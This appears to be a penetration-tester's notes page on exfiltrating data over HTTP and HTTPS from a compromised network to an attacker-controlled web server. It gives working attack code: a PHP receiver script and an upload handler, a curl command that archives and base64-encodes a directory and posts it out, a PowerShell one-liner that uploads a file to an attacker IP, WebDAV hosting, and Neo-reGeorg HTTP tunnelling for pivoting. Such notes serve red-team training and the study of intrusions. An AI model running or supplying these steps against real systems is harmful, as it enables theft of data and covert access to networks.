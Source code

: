 # Data Exfiltration Over HTTP and HTTPS

Real world scenario is that an attacker controls a cloud web server an agent or command is then executed from inside the network with a compromised machine to send the data to the webserver that is outside the compromised network. Then the attacker can just log in to a web server to get the data.

[wsgidav - Kali Tools](https://www.kali.org/tools/wsgidav/)
```bash
# 2023-2024~ Kali and Python3
sudo apt install python3-wsgidav

# wsgidav --port=80 --host=0.0.0.0 --root=/tmp --auth=anonymous

# Depending on OS version and python3 installation
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root 

# Host from a directory
mkdir /tmp/webdav/

wsgidav --port=80 --host=192.168.45.225 --root=$(pwd) --auth=anonymous
```

## HTTP

**HTTP Data Exfiltration will all be in plaintext and therefore not secure. If you use HTTPS it will be encrypted**

1.  An attacker create a page to be a data handler on the web server.
2.  A C2 agent or an attacker sends the data. 
3.  The webserver receives and stores the data.
4.  Login to webserver and get the data.

#### PHP version:#
bad.php contains:
```php
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

Then from the machine containing the data to be exfiltrated

```bash
curl --data "file=$(tar zcf - <directory> | base64)" http://webserver/bad.php
```

Then from webserver decode and decompress
```bash
sed -i 's/ /+/g' /tmp/http.bs64
cat /tmp/http.bs64 | base64 -d | tar xvfz -
```

#### Or with encoding

Host a http server, make directory owned by www-data
```bash
mkdir /var/www/uploads -p
chown www-data: /var/www/uploads 
```
Script to placed in `/uploads/upload.php`
```php
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

Upload
```powershell
powershell (New-Object System.Net.WebClient).UploadFile('http://$IP/upload.php', 'bad.exe')
```
## Tunneling

[neo-regeorg](https://github.com/L-codes/Neo-reGeorg) is the improve reGeorg a tool for HTTP tunnel pivoting previously written in python 2.7.
```bash
# Generates encrypted Tunneling clients
# key is in the neoreg_servers/
/opt/Neo-reGeorg: python3 neoreg.py generate -k <key> 
# upload one of the compatible clients to webserver
# create tunnel
/opt/Neo-reGeorg: python3 neoreg.py -k <key -u http://url/path/to/tunnel.php
 curl --socks5 127.0.0.1:1080 http://inaccessible-without-tunnel
```

## Notes
The 'Black Hat Python Ed.2' book contains a API exfiltration script to pastebin from a Windows Machine

## References

[neo-regeorg](https://github.com/L-codes/Neo-reGeorg) 
[wsgidav - Kali Tools](https://www.kali.org/tools/wsgidav/)